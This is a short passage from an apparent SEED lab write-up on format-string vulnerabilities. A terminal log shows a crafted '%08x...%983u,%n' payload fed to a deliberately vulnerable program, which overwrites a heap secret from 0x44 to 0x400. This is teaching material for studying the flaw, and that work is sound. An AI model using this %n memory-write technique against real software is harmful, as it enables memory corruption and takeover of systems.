 2. 试一试将secret[0]修改成1024 ?
```
[04/11/2018 00:58] seed@ubuntu:~/Seed$ ./a.out 
,%08x,%08x,%08x,%08x,%983u,%n
The string length is 33
[04/11/2018 00:59] seed@ubuntu:~/Seed$ ./vulp < mystring 
The variable secret’s address is 0xbffff2e8 (on stack)
The variable secret’s value is 0x 804b008 (on heap)
secret[0]’s address is 0x 804b008 (on heap)
secret[1]’s address is 0x 804b00c (on heap)
Please enter a string
�,bffff2ec,00000000,b7ff3fec,bffff394,                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      0,
The original secrets: 0x44 -- 0x55
The new secrets: 0x400 -- 0x55
```



